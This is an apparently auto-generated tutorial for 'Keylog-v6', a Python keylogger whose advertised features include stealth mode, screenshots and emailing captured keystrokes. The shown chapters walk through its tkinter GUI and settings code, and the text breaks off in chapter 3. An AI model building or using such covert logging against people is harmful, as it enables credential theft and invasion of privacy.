# Tutorial: keylog-v6

This is an **advanced keylogger application**.
It **listens for keyboard and mouse inputs**, *formats and handles* the data, and **saves it securely** to encrypted files.
The application provides a *graphical interface* for starting/stopping logging and configuring settings like log folders and email alerts.
It also includes features for *stealth mode*, **hotkeys**, *email reporting*, and *session tracking* with screenshots.


## Visual Overview



## Chapters

1. [Advanced Keylogger Application
](01_advanced_keylogger_application_.md)
2. [Graphical User Interface (GUI)
](02_graphical_user_interface__gui__.md)
3. [Settings and Configuration
](03_settings_and_configuration_.md)
4. [Input Listener
](04_input_listener_.md)
5. [Log Data Handling
](05_log_data_handling_.md)
6. [Data Encryption
](06_data_encryption_.md)
7. [Log File Management
](07_log_file_management_.md)
8. [Stealth and Hotkey Control
](08_stealth_and_hotkey_control_.md)
9. [Session Management
](09_session_management_.md)
10. [Email Alert System
](10_email_alert_system_.md)

---
# Chapter 1: Advanced Keylogger Application

Welcome to the tutorial for Keylog-v6! We're starting our journey by looking at the heart of the project: the `AdvancedKeylogger` application itself.

Think of Keylog-v6 as a complex machine built from many different parts: a part that listens to your keyboard, a part that handles settings, another that saves logs, and so on. Just like an orchestra needs a conductor to bring all the instruments together in harmony, Keylog-v6 needs a central controller to manage all its different features.

This is where the `AdvancedKeylogger` comes in. It's the main **control center** for everything. When you run the program, you are essentially creating and starting this `AdvancedKeylogger` object. It's responsible for setting up the graphical window you see, starting the background processes that listen for keys, making sure logs are saved, and handling all the settings you choose.

Let's look at how you actually start this application.

### How to Run the Application

Running the Keylog-v6 application is quite simple. You just need to execute the main Python file. Inside that file, there's a special section that tells the program what to do when it's run directly.

Here's the tiny bit of code responsible for starting everything:

```python
# ... (other code above) ...

def main():
    # 1. Create the main window object
    root = tk.Tk()
    # 2. Create the AdvancedKeylogger application object
    app = AdvancedKeylogger(root)
    # 3. Start the Tkinter event loop
    root.mainloop()

if __name__ == "__main__":
    main()
```

This code snippet is usually found at the very end of the main script file (`keylogger_v6.py`).

*   The line `if __name__ == "__main__":` is a standard Python way to say, "If this script is being run directly (not imported as a module), then do the following."
*   The `main()` function is called when the script starts.
*   `root = tk.Tk()` creates the main window for our application using the `tkinter` library (the GUI part).
*   `app = AdvancedKeylogger(root)` is the crucial step! This creates an instance of our `AdvancedKeylogger` class, passing the main window (`root`) to it. This `app` object is our conductor.
*   `root.mainloop()` starts the Tkinter event loop. This is what keeps the window open and responsive, waiting for you to click buttons or type.

When you run the `keylogger_v6.py` file, the result is that the main window of the application pops up, and the `AdvancedKeylogger` object starts its initialization process in the background.

### What Happens When the Application Starts?

When you create an `AdvancedKeylogger` object (`app = AdvancedKeylogger(root)`), its special setup method, called `__init__` (pronounced "dunder-init"), runs automatically. This method is like the application's 'startup routine'.

Here's a simplified look at what happens:



The `__init__` method in the `AdvancedKeylogger` class is busy! It performs several important setup steps:

1.  **Sets up the Window:** It configures the main window (title, size).
2.  **Initializes Variables:** It sets up internal flags and storage, like whether logging is active, lists to hold keys, default folder names, etc.
3.  **Sets up Folders:** It makes sure the necessary folders for logs and screenshots exist on your computer.
4.  **Sets up Encryption:** It handles generating or loading the key needed to keep your logs secure.
5.  **Sets up GUI:** It builds all the buttons, labels, text areas, and settings sections you see in the window. This is a big part!
6.  **Applies Theme:** It sets the look and feel of the application window.
7.  **Starts Hotkey Listener:** It starts listening in the background for special key combinations (like F12 for stealth).
8.  **Optimizes Performance:** It tries to make the application run smoothly.

Once all these setup steps are done, the `main()` function tells the Tkinter window to start its main loop (`root.mainloop()`), which makes the window appear and become interactive. The `AdvancedKeylogger` object is now sitting in the background, ready to respond when you click "Start Logging" or trigger a hotkey.

### Looking at the Code (`__init__`)

Let's see a simplified version of the `__init__` method from `keylogger_v6.py` to get a feel for how it calls these setup functions. We'll break it down into parts.

First, the basic setup and variable initialization:

```python
# File: keylogger_v6.py

class AdvancedKeylogger:
    def __init__(self, root):
        # Store the main window object
        self.root = root
        # Configure the main window
        self.root.title("Keylog-v6")
        self.root.geometry("900x800")

        # Initialize important state variables (flags)
        self.is_logging = False
        self.is_stealth = False
        self.is_paused = False

        # Lists to hold data
        self.keys = []
        self.current_session_keys = []

        # Default settings/paths
        self.log_folder = "keylogs"
        self.screenshot_folder = "screenshots"
        self.encryption_key = None # Will be loaded or generated
        self.cipher = None # Will be created after key setup
        self.theme = "mr_robot" # Default look
        # ... other configuration variables ...
        self.hotkeys = {"stealth": "f12", "pause": "f11"}
        # ... more variables for session stats, timing, etc. ...

        # Initialize pygame mixer for sound (if used)
        pygame.mixer.init()

        # Variables to hold listener objects (will be created later)
        self.hotkey_listener = None
        self.mouse_listener = None

        # Threads for background tasks (will be created later)
        self.log_thread = None
        # ... etc ...
```

This first part sets up the basic window and creates variables (like `self.is_logging`, `self.log_folder`, `self.keys`) that the object will use to keep track of its state and data. Think of these variables as the notes, tempo settings, and player lists the conductor keeps track of.

Next, `__init__` calls the methods that handle the specific setup tasks:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.__init__)

        # Call methods to perform setup tasks
        self.setup_folders()     # Makes sure log/screenshot folders exist
        self.setup_encryption()  # Loads or generates encryption key
        self.setup_gui()         # Builds all the visual elements
        self.apply_theme()       # Applies the chosen color/font theme

        # Start the listener for hotkeys immediately
        self.start_hotkey_listener()

        # Try to optimize the process performance
        self.optimize_performance()

        # The GUI main loop (root.mainloop()) is started outside
        # of this __init__ method, in the main() function.
```

These lines show how the `AdvancedKeylogger` object delegates different responsibilities to other methods (`setup_folders`, `setup_encryption`, etc.). We will explore what happens *inside* these methods in later chapters:

*   `setup_gui` is the core of the next chapter: [Graphical User Interface (GUI)](02_graphical_user_interface__gui__.md).
*   `setup_encryption` will be discussed in [Data Encryption](06_data_encryption_.md).
*   `setup_folders` and actions related to saving/loading (like `save_log`) relate to [Log File Management](07_log_file_management_.md).
*   `start_hotkey_listener` and `toggle_stealth` are part of [Stealth and Hotkey Control](08_stealth_and_hotkey_control_.md).
*   The actual logging happens in a method called `log_keys` (started by `start_logging`), which is the focus of [Input Listener](04_input_listener_.md).
*   Handling the collected data is covered in [Log Data Handling](05_log_data_handling_.md) and [Session Management](09_session_management_.md).
*   Saving configuration is part of [Settings and Configuration](03_settings_and_configuration_.md).
*   Sending logs is in [Email Alert System](10_email_alert_system_.md).

So, the `AdvancedKeylogger` class acts as the central point that brings all these pieces together and orchestrates their initial setup.

### Conclusion

In this chapter, we learned that the `AdvancedKeylogger` class is the central controller of the Keylog-v6 application. It's the main object created when you run the program and is responsible for setting up the user interface, initializing crucial settings, and preparing the different components (like listeners and file handlers) to work together.

We saw how the `main()` function creates the Tkinter window and then creates the `AdvancedKeylogger` object, kicking off its complex initialization process via the `__init__` method.

Now that we understand the conductor, let's look at the first major section it sets up: the visual window you interact with.

[Next Chapter: Graphical User Interface (GUI)](02_graphical_user_interface__gui__.md)

---
# Chapter 2: Graphical User Interface (GUI)

Welcome back! In [Chapter 1: Advanced Keylogger Application](01_advanced_keylogger_application_.md), we met the "conductor" of our application, the `AdvancedKeylogger` class. We saw how it's created and how its `__init__` method kicks off the whole setup process, including building the window you see.

Now, let's focus entirely on that window – the part you actually look at and interact with. This is known as the **Graphical User Interface (GUI)**.

### What is a GUI?

Imagine the `AdvancedKeylogger` from the last chapter is the engine and control systems of a car. The GUI is the dashboard, steering wheel, pedals, and gear shift. It's what the driver (you!) uses to see what the car is doing (status lights, speed) and tell it what to do (accelerate, brake, turn).

In our keylogger application, the GUI is the window that pops up. It's your control panel and display screen all rolled into one. It lets you:

*   **Start and Stop Logging:** Like pressing the "Start Engine" or "Stop Engine" button.
*   **See Activity:** View a live preview of the keys being logged.
*   **Change Settings:** Adjust things like where logs are saved or if email alerts are on.
*   **Control the Window:** Minimize, maximize, or even hide the window.
*   **Change Appearance:** Switch themes to make it look different.

Without the GUI, controlling the keylogger would be much harder – you'd have to use complex commands. The GUI makes it user-friendly.

The Keylog-v6 GUI is built using a standard Python library called `tkinter`.

### How You Use the GUI

Using the GUI is straightforward because it's designed for direct interaction.

1.  **Run the Application:** As we saw in Chapter 1, running the main script (`keylogger_v6.py`) starts the `main()` function.
2.  **The Window Appears:** Inside `main()`, `tk.Tk()` creates the main window, and `root.mainloop()` starts the Tkinter event loop. This loop is constantly listening for things like button clicks, typing in entry fields, and mouse movements within the window.
3.  **Interact:** You click the "Start Logging" button. The Tkinter loop detects this click and calls the corresponding function linked to that button inside the `AdvancedKeylogger` object (we'll see how this linking happens below). You type in the settings fields. The Tkinter loop manages the text you enter.
4.  **See Results:** As keys are logged, the `AdvancedKeylogger` updates the text area in the GUI to show you the recent activity. The status label also updates.

Essentially, *everything* you do directly with the application window involves interacting with the GUI elements managed by Tkinter.

### Building the GUI: The `setup_gui` Method

So, how is this visual control panel created when the application starts? As we briefly saw in Chapter 1, the `AdvancedKeylogger`'s `__init__` method calls `self.setup_gui()`. This `setup_gui` method is where all the buttons, labels, and fields are created and arranged in the window.

Let's look at a simplified version of the `setup_gui` method from the code (`keylogger_v6.py`). It's a bit long in the actual file because it sets up *all* the elements, but we'll break it down into smaller, understandable parts.

First, it sets up the main area within the window:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.setup_gui)

def setup_gui(self):
    # Create a main frame (a container) inside the root window
    self.main_frame = ttk.Frame(self.root, padding="10")
    # Make the frame fill the window and expand if the window is resized
    self.main_frame.pack(fill=tk.BOTH, expand=True)

    # Add a title label at the top
    self.title_label = ttk.Label(self.main_frame, text=" Keylogger Tool V6", font=("Consolas", 20, "bold"))
    self.title_label.pack(pady=10)

    # ... rest of the GUI setup ...
```

Here:
*   `ttk.Frame` creates a container using `tkinter.ttk` (themed widgets, which look better). Think of a frame as a panel where you can place other things. `self.root` is the main window created back in `main()`.
*   `.pack()` is a simple way to place widgets. `fill=tk.BOTH` and `expand=True` make the frame take up all available space.
*   `ttk.Label` creates text that is displayed. `self.main_frame` tells it *where* to appear. `pady` adds some vertical space around it.

Next, it adds the control buttons like Start and Stop:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.setup_gui, continues...)

    # Create another frame specifically for control buttons
    self.control_frame = ttk.Frame(self.main_frame)
    self.control_frame.pack(fill=tk.X, pady=5) # Fill horizontally, add space

    # Create the "Start Logging" button
    self.start_button = ttk.Button(self.control_frame, text="Start Logging", command=self.start_logging)
    self.start_button.pack(side=tk.LEFT, padx=5) # Place on the left, add horizontal space

    # Create the "Stop Logging" button (initially disabled)
    self.stop_button = ttk.Button(self.control_frame, text="Stop Logging", command=self.stop_logging, state="disabled")
    self.stop_button.pack(side=tk.LEFT, padx=5)

    # Create the "Pause Logging" button (initially disabled)
    self.pause_button = ttk.Button(self.control_frame, text="Pause Logging", command=self.pause_logging, state="disabled")
    self.pause_button.pack(side=tk.LEFT, padx=5)

    # Create the "Toggle Stealth" button
    self.stealth_button = ttk.Button(self.control_frame, text="Toggle Stealth", command=self.toggle_stealth)
    self.stealth_button.pack(side=tk.LEFT, padx=5)

    # ... rest of the GUI setup ...
```

This section shows how buttons are created using `ttk.Button`. The important part is the `command` argument. This tells the button *which method* of our `AdvancedKeylogger` object to call when it is clicked. For example, clicking `self.start_button` will execute the `self.start_logging()` method. This is how GUI interaction triggers application logic!

Let's add the preview area:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.setup_gui, continues...)

    # Frame for the log preview
    self.preview_frame = ttk.Frame(self.main_frame)
    self.preview_frame.pack(pady=5, fill=tk.BOTH, expand=True) # Fills and expands

    self.preview_label = ttk.Label(self.preview_frame, text="Real-Time Log Preview:", font=("Consolas", 12))
    self.preview_label.pack(pady=5)

    # ScrolledText is a text area with built-in scrollbars
    self.preview_text = scrolledtext.ScrolledText(self.preview_frame, height=15, width=80, state="disabled", font=("Consolas", 12))
    self.preview_text.pack(side=tk.LEFT, fill=tk.BOTH, expand=True)

    # We can also configure its appearance directly
    self.preview_text.configure(bg="#000000", fg="#ff0000", relief=tk.RAISED, borderwidth=3)

    # Note: The scrollbar packing is slightly more involved but included in the original code snippet.

    # ... rest of the GUI setup ...
```

Here, `scrolledtext.ScrolledText` is used. This is a special widget that's useful for displaying lots of text because it automatically includes scrollbars. It's configured to be `state="disabled"` initially, meaning the user can't type in it – it's only for displaying the logs. The `update_preview` method we saw referenced in `log_keys` (from Chapter 1's code) is what writes text *into* this box.

Finally, let's look at a snippet from the settings section:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.setup_gui, continues...)

    # LabelFrame creates a frame with a title border
    self.settings_frame = ttk.LabelFrame(self.main_frame, text="Settings", padding="10")
    self.settings_frame.pack(fill=tk.X, pady=10) # Fills horizontally

    # Frame for General Settings inside the main settings frame
    self.general_frame = ttk.LabelFrame(self.settings_frame, text="General", padding="5")
    self.general_frame.pack(fill=tk.X, pady=5)

    # Label and Entry field for the Log Folder
    self.folder_label = ttk.Label(self.general_frame, text="Log Folder:", font=("Consolas", 10))
    # We use .grid() here instead of .pack() for more precise row/column placement
    self.folder_label.grid(row=0, column=0, sticky="w", padx=5)

    self.folder_entry = ttk.Entry(self.general_frame, width=40, font=("Consolas", 10))
    self.folder_entry.insert(0, self.log_folder) # Put the default folder path in the box
    self.folder_entry.grid(row=0, column=1, padx=5)

    # Button to browse for a folder, linked to self.browse_folder
    self.folder_button = ttk.Button(self.general_frame, text="Browse", command=self.browse_folder)
    self.folder_button.grid(row=0, column=2, padx=5)

    # Checkbutton for Auto Delete, linked to a BooleanVar
    self.auto_delete = tk.BooleanVar()
    self.auto_delete_check = ttk.Checkbutton(self.general_frame, text="Auto Delete Old Logs (7 days)", variable=self.auto_delete)
    self.auto_delete_check.grid(row=1, column=0, columnspan=3, sticky="w", pady=5)

    # ... sections for Email settings, Advanced settings, Save button ...

    # Theme toggle button
    self.theme_button = ttk.Button(self.main_frame, text="Toggle Theme", command=self.toggle_theme)
    self.theme_button.pack(pady=5)

    # Status label at the bottom
    self.status_label = ttk.Label(self.main_frame, text="Status: Idle", wraplength=700, font=("Consolas", 12))
    self.status_label.pack(pady=5)
```

This part demonstrates creating `ttk.LabelFrame` (a framed container with a title), `ttk.Entry` (a text input box), `ttk.Checkbutton` (a checkbox), and using the `.grid()` layout manager to arrange them in rows and columns within the frame. It also shows how methods like `self.browse_folder` or `self.save_settings` are linked to buttons.

The `setup_gui` method essentially does all the heavy lifting of creating these visual pieces and placing them in the window.

### How it Fits Together (Under the Hood)

When the `AdvancedKeylogger` object is created, its `__init__` method calls `setup_gui()`.



Once `setup_gui` finishes, all the GUI widgets (frames, labels, buttons, entries, text area) have been created by Tkinter and associated with variables inside the `AdvancedKeylogger` object (like `self.start_button`, `self.preview_text`). They are arranged within the `self.root` window, but the window won't actually *show* and *respond* until `root.mainloop()` is called in the `main()` function (which happens right after `AdvancedKeylogger` is created). The `mainloop` is the engine that listens for your clicks and typing and triggers the linked methods.

### Key GUI Components Used

Keylog-v6 uses several common Tkinter widgets:

| Widget Type          | Description                                          | Used For                                                      |
| :------------------- | :--------------------------------------------------- | :------------------------------------------------------------ |
| `tk.Tk`              | The main application window                          | The entire application window                                 |
| `ttk.Frame`          | A rectangular area used to group other widgets       | Organizing sections like controls, preview, and settings      |
| `ttk.LabelFrame`     | A frame with a border and title                      | Creating titled sections for Settings (General, Email, etc.)  |
| `ttk.Label`          | Displays text or images                              | Titles, field names (e.g., "Log Folder:", "Status:"), preview label |
| `ttk.Button`         | A clickable button to trigger actions                | Start, Stop, Pause, Toggle Stealth, Save Settings, Browse, Theme |
| `ttk.Entry`          | A single-line text input field                       | Entering folder path, email address, password, hotkeys, search query |
| `scrolledtext.ScrolledText` | A multi-line text area with built-in scrollbars | Displaying the real-time log preview                          |
| `ttk.Checkbutton`    | A checkbox that can be checked or unchecked          | Enabling/Disabling Email Alerts, Auto Delete Logs           |
| `ttk.OptionMenu`     | A dropdown menu for selecting from options           | Selecting Key Sensitivity (though not fully implemented here) |
| `ttk.Scrollbar`      | Allows scrolling content in another widget           | Attached to the `ScrolledText` preview area                   |

Using these building blocks, the `setup_gui` method constructs the entire visual layout you see.

### Theming and Appearance

The GUI also includes a `toggle_theme` button and an `apply_theme` method. These methods change the colors and fonts of the existing GUI elements.

```python
# File: keylogger_v6.py (simplified apply_theme method)

def apply_theme(self):
    # Define different color schemes
    themes = {
        "dark": {"bg": "#1c2526", "fg": "#00ff00", ...},
        "light": {"bg": "#ffffff", "fg": "#000000", ...},
        # ... other themes ...
    }
    current_theme_colors = themes[self.theme] # Get colors for the current theme

    # Use ttk.Style to configure the appearance of different widget types
    style = ttk.Style()
    style.configure("TFrame", background=current_theme_colors["bg"])
    style.configure("TLabel", background=current_theme_colors["bg"], foreground=current_theme_colors["fg"], ...)
    style.configure("TButton", background=current_theme_colors["button_bg"], foreground=current_theme_colors["button_fg"], ...)
    # Configure other widget styles...

    # Also configure the root window and specific widgets
    self.root.configure(bg=current_theme_colors["bg"])
    self.main_frame.configure(style="TFrame") # Apply the configured style to the frame
    self.preview_text.configure(bg=current_theme_colors["bg"], fg=current_theme_colors["fg"])

    # Handle special theme effects like the 'mr_robot' glitch
    if current_theme_colors.get("glitch", False):
        self.apply_glitch_effect()
    # ... logic to remove glitch if switching away ...

# The toggle_theme method just cycles through the theme names and calls apply_theme
def toggle_theme(self):
    themes = ["dark", "light", "hacker", "mr_robot", "green", "purple", "red"]
    current_index = themes.index(self.theme)
    next_index = (current_index + 1) % len(themes)
    self.theme = themes[next_index]
    self.apply_theme()

```

This shows how the `apply_theme` method uses `ttk.Style` to change the default look of *all* widgets of a certain type (`TFrame`, `TLabel`, etc.) and also configures specific widgets directly (like `self.preview_text`). The `toggle_theme` method simply changes which theme is currently selected and then calls `apply_theme` to make the change visible.

### Conclusion

The Graphical User Interface (GUI) is your primary way to interact with the Keylog-v6 application. Built using the `tkinter` library, it provides the visual elements like buttons, labels, and text fields that make the application easy to use and control.

We learned that the `setup_gui` method inside the `AdvancedKeylogger` class is responsible for creating and arranging all these visual pieces when the application starts. These pieces are linked to other methods within the `AdvancedKeylogger` object, allowing your clicks and input to trigger the application's core functions. The GUI also handles changing the application's appearance through themes.

Now that we know how to interact with the application using the GUI, let's dive deeper into one of the main things you can do with it: configure the application's settings.

[Next Chapter: Settings and Configuration](03_settings_and_configuration_.md)

---
# Chapter 3: Settings and Configuration

Welcome back! In [Chapter 2: Graphical User Interface (GUI)](02_graphical_user_interface__gui__.md), we explored the visual control panel of our Keylog-v6 application. We saw all the buttons, labels, and input fields that make up the window you interact with. But what do you *do* with those input fields? You use them to tell the keylogger how you want it to behave – you configure its **settings**.

Think of settings as the instruction manual you give to the keylogger. Do you want it to save logs in a specific place? Do you want to receive email alerts? Which special keys should hide the window? Settings allow you to customize the application to fit your needs.

This chapter is all about understanding where these settings are, how you change them using the GUI elements we just learned about, and what happens when you save your preferences.

### Why Are Settings Important?

Imagine you have a keylogger, but you can't tell it where to save the logs. It might just put them in a random place you can't find! Or maybe you want it to automatically clean up old log files, but there's no way to tell it to do that.

Settings solve these problems. They give you control over the application's behavior. In Keylog-v6, you can adjust settings for things like:

*   The folder where log files are stored.
*   Whether email reporting is enabled and the details (your email, password, who gets the logs, how often).
*   Which hotkeys trigger actions like stealth mode or pausing.
*   How often the logs are automatically saved to a file.
*   Whether old log files should be automatically deleted.

All these options are exposed through the GUI settings section we saw in the last chapter.

### Finding and Changing Settings in the GUI

As we saw in [Chapter 2: Graphical User Interface (GUI)](02_graphical_user_interface__gui__.md), the GUI has a dedicated "Settings" section, clearly marked with a `LabelFrame`.

Inside this section, you'll find different areas for "General", "Email", and "Advanced" settings. Each area contains labels explaining what a setting is for (like "Log Folder:") and input fields (`Entry` widgets) or checkboxes (`Checkbutton` widgets) where you can view or change the current value.

For example, to change the folder where logs are saved:

1.  Look for the "Settings" section.
2.  Inside "Settings", find the "General" section.
3.  You'll see a label "Log Folder:" and next to it, a text box (`Entry`). This text box shows the *current* log folder path.
4.  Click inside the text box and type the new path you want, or click the "Browse" button to choose a folder graphically.

Similarly, to enable email alerts:

1.  Find the "Email" section within "Settings".
2.  Click the checkbox labeled "Enable Email Alerts".
3.  When you check this box, the related email fields (Your Email, Password, Receiver Email, Interval) become enabled, allowing you to type in your email configuration. Unchecking it disables them again.

You can change other settings like Hotkeys or Logging Interval by typing new values into their respective text boxes in the "Advanced" section.

### Saving Your Settings

Changing a value in a text box or clicking a checkbox in the GUI doesn't immediately change how the keylogger works in the background. You need to explicitly tell the application to *apply* these new settings.

This is done by clicking the **"Save Settings"** button, located at the bottom of the "Settings" section in the GUI.

When you click this button, the application reads all the values you've entered or selected in the settings section and updates its internal variables to match your choices. It also performs actions that need to happen immediately, like restarting the hotkey listener if you changed a hotkey.

Let's look at the part of the GUI code that creates these settings widgets:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger.setup_gui, snippet)

        # Settings section container
        self.settings_frame = ttk.LabelFrame(self.main_frame, text="Settings", padding="10")
        self.settings_frame.pack(fill=tk.X, pady=10)

        # --- General Settings ---
        self.general_frame = ttk.LabelFrame(self.settings_frame, text="General", padding="5")
        self.general_frame.pack(fill=tk.X, pady=5)
        self.folder_label = ttk.Label(self.general_frame, text="Log Folder:", font=("Consolas", 10))
        self.folder_label.grid(row=0, column=0, sticky="w", padx=5)
        self.folder_entry = ttk.Entry(self.general_frame, width=40, font=("Consolas", 10))
        self.folder_entry.insert(0, self.log_folder) # <--- Initial value
        self.folder_entry.grid(row=0, column=1, padx=5)
        self.folder_button = ttk.Button(self.general_frame, text="Browse", command=self.browse_folder) # <--- Linked to browse_folder method
        self.folder_button.grid(row=0, column=2, padx=5)
        self.auto_delete = tk.BooleanVar() # <--- Variable for checkbox state
        self.auto_delete_check = ttk.Checkbutton(self.general_frame, text="Auto Delete Old Logs (7 days)", variable=self.auto_delete)
        self.auto_delete_check.grid(row=1, column=0, columnspan=3, sticky="w", pady=5)

        # --- Email Settings ---
        self.email_frame = ttk.LabelFrame(self.settings_frame, text="Email", padding="5")
        self.email_frame.pack(fill=tk.X, pady=5)
        self.email_enabled = tk.BooleanVar() # <--- Variable for checkbox state
        self.email_check = ttk.Checkbutton(self.email_frame, text="Enable Email Alerts", variable=self.email_enabled, command=self.toggle_email_settings) # <--- Linked to toggle_email_settings
        self.email_check.grid(row=0, column=0, columnspan=3, sticky="w", pady=5)
        # ... Email entry fields and labels created here ...

        # --- Advanced Settings ---
        self.advanced_frame = ttk.LabelFrame(self.settings_frame, text="Advanced", padding="5")
        self.advanced_frame.pack(fill=tk.X, pady=5)
        # ... Advanced entry fields (intervals, hotkeys) and labels created here ...

        # --- Save Button ---
        self.save_settings_button = ttk.Button(self.settings_frame, text="Save Settings", command=self.save_settings) # <--- Linked to save_settings method
        self.save_settings_button.pack(pady=5)

```
This snippet shows how Tkinter widgets are created for settings. Notice how each input widget (`Entry`, `Checkbutton`) is associated with a variable (like `self.folder_entry`, `self.auto_delete`, `self.email_enabled`) and the "Save Settings" button is linked to a method called `self.save_settings`.

The email checkbox (`self.email_check`) also has a `command` linked to `self.toggle_email_settings`. This method is called *immediately* when the checkbox is clicked, making the email entry fields enabled or disabled.

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def toggle_email_settings(self):
        # Read the current state of the email checkbox
        state = "normal" if self.email_enabled.get() else "disabled"
        # Loop through email-related entry widgets
        for widget in [self.email_entry, self.pass_entry, self.receiver_entry, self.interval_entry]:
            # Set their state based on the checkbox
            widget.configure(state=state)
```
This simple method makes the GUI more interactive, disabling fields that aren't currently relevant if email alerts are turned off.

The `browse_folder` method, linked to the Browse button, is also straightforward:

```python
# File: keylogger_v6.py (inside AdvancedKeylogger)

    def browse_folder(self):
        # Open a dialog box for the user to choose a directory
        folder = filedialog.askdirectory()
        # If a folder was selected (user didn't cancel)
        if folder:
            # Clear the current text in the folder entry field
            self.folder_entry.delete(0, tk.END)
            # Insert the selected folder path into the entry field
            self.folder_entry.insert(0, folder)
            # Update the internal log_folder variable
            self.log_folder = folder
            # Ensure the chosen folder exists
            os.makedirs(self.log_folder, exist_ok=True)
```
This uses Tkinter's `filedialog` to provide a standard way to select a folder, making it easy for the user to set the log location.

### What Happens When You Save Settings? (Under the Hood)

When you click the "Save Settings" button, the `self.save_settings()` method within the `AdvancedKeylogger` object is called.

Here's a simplified look at what this method does:

